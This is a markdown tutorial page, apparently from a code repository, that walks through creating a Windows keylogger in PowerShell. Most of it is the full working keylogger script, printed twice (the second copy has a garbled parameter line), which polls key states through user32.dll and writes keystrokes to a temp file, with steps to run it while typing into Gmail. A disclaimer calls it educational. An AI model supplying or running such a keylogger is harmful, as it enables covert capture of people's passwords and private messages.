 ```yaml
---
title: "Windows Key Logger"
date: "2019-12-12"

---
```




## Warning 

> **Warning: Educational Purposes Only**
> **This keylogger application is provided strictly for educational purposes. It is intended to be used as a learning tool to understand the behavior of keyloggers and enhance your knowledge of computer security.**

> **DO NOT Use it for Hacking**
> **Under no circumstances should this keylogger application be used for hacking, gaining unauthorized access to someone's computer, or engaging in any illegal activities.**

> **Use at Your Own Risk**
> **By choosing to use this keylogger application, you acknowledge and accept all associated risks. The developer and any contributors to this application are not responsible for any damages, losses, or legal consequences resulting from the use or misuse of this software.**



## Procedure

**Step1**

Spread out the Start menu. Type in Windows PowerShell in the search bar. From the search results, open the applications Windows PowerShell and Windows PowerShell ISE as shown in the screenshot.

![image-20231119105736290](image-20231119105736290.png)



**STEP 2**

Click on Windows PowerShell icon in the task bar. This will result in the popping up of Windows PowerShell command prompt.

![image-20231119105754221](image-20231119105754221.png)



**STEP 3**

Copy the code given below and paste it onto the Windows PowerShell command prompt. To copy or paste, you just need to select the code and right click, in the PowerShell command prompt. #requires -Version 2

	function Start-KeyLogger($Path="$env:temp\keylogger.txt")
	{
	# Signatures for API Calls
	$signatures = @'
	[DllImport("user32.dll", CharSet=CharSet.Auto, ExactSpelling=true)]
	public static extern short GetAsyncKeyState(int virtualKeyCode);
	[DllImport("user32.dll", CharSet=CharSet.Auto)]
	public static extern int GetKeyboardState(byte[] keystate);
	[DllImport("user32.dll", CharSet=CharSet.Auto)]
	public static extern int MapVirtualKey(uint uCode, int uMapType);
	[DllImport("user32.dll", CharSet=CharSet.Auto)]
	public static extern int ToUnicode(uint wVirtKey, uint wScanCode, byte[] lpkeystate, System.Text.StringBuilder pwszBuff,
	int cchBuff, uint wFlags);
	'@
	
	# load signatures and make members available
	$API = Add-Type -MemberDefinition $signatures -Name 'Win32' -Namespace API -PassThru
	
	# create output file
	$null = New-Item -Path $Path -ItemType File -Force
	
	try
	{
	Write-Host 'Recording key presses. Press CTRL+C to see results.' -ForegroundColor Red
	
	# create endless loop. When user presses CTRL+C, finally-block
	# executes and shows the collected key presses
	while ($true) {
	Start-Sleep -Milliseconds 40
	
	# scan all ASCII codes above 8
	for ($ascii = 9; $ascii -le 254; $ascii++) {
	# get current key state
	$state = $API::GetAsyncKeyState($ascii)
	
	# is key pressed?
	if ($state -eq -32767) {
	$null = [console]::CapsLock
	
	# translate scan code to real code
	$virtualKey = $API::MapVirtualKey($ascii, 3)
	
	# get keyboard state for virtual keys
	$kbstate = New-Object Byte[] 256
	$checkkbstate = $API::GetKeyboardState($kbstate)
	
	# prepare a StringBuilder to receive input key
	$mychar = New-Object -TypeName System.Text.StringBuilder
	
	# translate virtual key
	$success = $API::ToUnicode($ascii, $virtualKey, $kbstate, $mychar, $mychar.Capacity, 0)
	
	if ($success)
	{
	# add key to logger file
	[System.IO.File]::AppendAllText($Path, $mychar, [System.Text.Encoding]::Unicode)
	}
	}
	}
	}
	}
	finally
	{
	# open logger file in Notepad
	notepad $Path
	}
	}
	
	# records all key presses until script is aborted by pressing CTRL+C
	# will then open the file with collected key codes
	Start-KeyLogger		
or
	  #requires -Version 2
		function Start-KeyLogger(Path="Path="env:temp\keylogger.txt") 
		{
		  # Signatures for API Calls
		  $signatures = @'
		[DllImport("user32.dll", CharSet=CharSet.Auto, ExactSpelling=true)] 
		public static extern short GetAsyncKeyState(int virtualKeyCode); 
		[DllImport("user32.dll", CharSet=CharSet.Auto)]
		public static extern int GetKeyboardState(byte[] keystate);
		[DllImport("user32.dll", CharSet=CharSet.Auto)]
		public static extern int MapVirtualKey(uint uCode, int uMapType);
		[DllImport("user32.dll", CharSet=CharSet.Auto)]
		public static extern int ToUnicode(uint wVirtKey, uint wScanCode, byte[] lpkeystate, System.Text.StringBuilder pwszBuff, int cchBuff, uint wFlags);
		'@
	
	  # load signatures and make members available
	  $API = Add-Type -MemberDefinition $signatures -Name 'Win32' -Namespace API -PassThru
		
	  # create output file
	  $null = New-Item -Path $Path -ItemType File -Force
	
	  try
	  {
		Write-Host 'Recording key presses. Press CTRL+C to see results.' -ForegroundColor Red
	
		# create endless loop. When user presses CTRL+C, finally-block
		# executes and shows the collected key presses
		while ($true) {
		  Start-Sleep -Milliseconds 40
		  
		  # scan all ASCII codes above 8
		  for ($ascii = 9; $ascii -le 254; $ascii++) {
	    	# get current key state
	    	$state = $API::GetAsyncKeyState($ascii)
	
	    	# is key pressed?
	    	if ($state -eq -32767) {
	    	  $null = [console]::CapsLock
	
	    	  # translate scan code to real code
	    	  $virtualKey = $API::MapVirtualKey($ascii, 3)
	
	    	  # get keyboard state for virtual keys
	    	  $kbstate = New-Object Byte[] 256
	    	  $checkkbstate = $API::GetKeyboardState($kbstate)
	
	    	  # prepare a StringBuilder to receive input key
	    	  $mychar = New-Object -TypeName System.Text.StringBuilder
	
	    	  # translate virtual key
	    	  $success = $API::ToUnicode($ascii, $virtualKey, $kbstate, $mychar, $mychar.Capacity, 0)
	
	    	  if ($success) 
	    	  {
	        	# add key to logger file
	        	[System.IO.File]::AppendAllText($Path, $mychar, [System.Text.Encoding]::Unicode) 
	    	  }
	    	}
		  }
		}
	  }
	  finally
	  {
		# open logger file in Notepad
		notepad $Path
	  }
	}
	
	# records all key presses until script is aborted by pressing CTRL+C
	# will then open the file with collected key codes
	Start-KeyLogger



**STEP 4**

Now the Windows PowerShell will look like the following screenshot.



**STEP 5**

Now open some application and press some keys. I have opened G-Mail as an example.



**STEP 6**

Once you are done with pressing keys, look at the bottom of the code in the Windows PowerShell command prompt. There you will see an instruction Recording key presses. Press CTRL+C to see results. Press CTRL+C as per the instruction to see the logged keystrokes.



**STEP 7**

Pressing CTRL+C will result in the opening of a notepad file, which has the recorded keystrokes.

![image-20231119110007861](image-20231119110007861.png)



**STEP 8**

Alternatively, you can open the Windows PowerShell ISE as shown in the first step and copy the code. As next, click on the Play icon to run the script. This will also give the same result.



That’s it. Creating your own keylogger is not a walk through the ocean anymore. Hope the article was found useful.



## Reference 

[ - How to stop windows 10 key logger program ](# "https://thegeekpage.com/create-simple-keylogger-windows/")
[- How to create a simple key logger yourself in windows](https://thegeekpage.com/how-to-disable-windows-10-keylogger-program/)
